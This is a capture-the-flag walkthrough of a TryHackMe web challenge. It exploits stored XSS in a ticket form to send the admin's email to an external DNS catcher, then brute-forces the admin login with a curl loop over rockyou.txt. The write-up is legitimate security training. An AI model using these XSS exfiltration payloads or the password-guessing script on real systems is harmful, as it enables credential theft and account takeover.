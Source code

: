 # That's The Ticket

## Information

* Category: Web Exploitation
* Difficulty: **Medium**

### Challenge

We are given an IP address. Let's first scan it with `nmap` to see what ports are open.

![](nmap-scan.png)

We can see that port 80 is open. Let's visit the website.

![](website.png)

This is some kind of ticket management system. Let's try to register an account.

![](dashboard.png)

And we are in. There is a form for us to submit and create a ticket with a message. Let's try to submit a ticket.

![](ticket-sample.png)

We can see that the ticket is created. Let's try to submit a ticket with a message that contains a script tag.

![](script-tag-test.png)

Nothing happens... yet. This seems to be in a `<textarea>` tag. Let's try to close the tag and see if it works.

![](stored-xss.png)

We can see that the script tag is executed. This is a **stored XSS** vulnerability. Let's try to create a ticket that request back to our server. We are using the DNS requests catcher that TryHackMe provides. This would be our payload:

```html
</textarea><script>var i = new Image(); i.src="//<THM_DNS_CATCHER_SESSION>/"; </script>
```

![](request-caught.png)

There were several requests made to our server as we created the ticket, some of which seem to be made by the admin. We can see that the payload is working. Let's try to create a ticket that will steal the admin's email. All we need to do is to add the email to end of our script.

```html
</textarea><script>var i = new Image(); i.src="//" + document.getElementById('email').innerHTML + ".<THM_DNS_CATCHER_SESSION>/="; </script>
```

![](email-grabbing-attempt.png)

Sounds like there is something wrong with our payload. This could due to special characters in the email that causes the request to escape. The special characters should be `@` and `.`. Let's try to change them into something else.

```html
</textarea>
<script>
var email = document.getElementById('email').innerHTML;
email = email.replace('@', 'AT').replace('.', 'DOT');
var i = new Image();
i.src="//" + email + ".<THM_DNS_CATCHER_SESSION>/";
</script>
```

![](email-stolen.png)

And there it is! We got the admin's email. Let's try to login with the admin's email. Since we don't have the password, we might want to try to brute force it. First, we need to use `Burp Suite` to intercept the `POST` request when we try to login.

![](post-request.png)

Now let's try cracking the password using `curl` and the `rockyou.txt` wordlist.

```bash
cnt=0

while IFS= read -r line; do
    response=$(curl -s -o /dev/null -w "%{http_code}" -X POST -d "email=adminaccount@itsupport.thm&password=$line" http://10.10.167.70/login)
    if [ "$response" -ne 401 ]; then
        echo "Password found: $line"
        break
    fi
    cnt=$((cnt + 1))
    if (( cnt % 10000 == 0 )); then
        echo "Tried $cnt lines..."
    fi
done < /usr/share/wordlists/rockyou.txt
```

![](password-found.png)

We got the password! Let's login with the admin's email and password.

![](admin-dashboard.png)

There is a ticket with ID `1` which was not created by us. Let's try to view the ticket.

![](flag.png)

And we found the flag!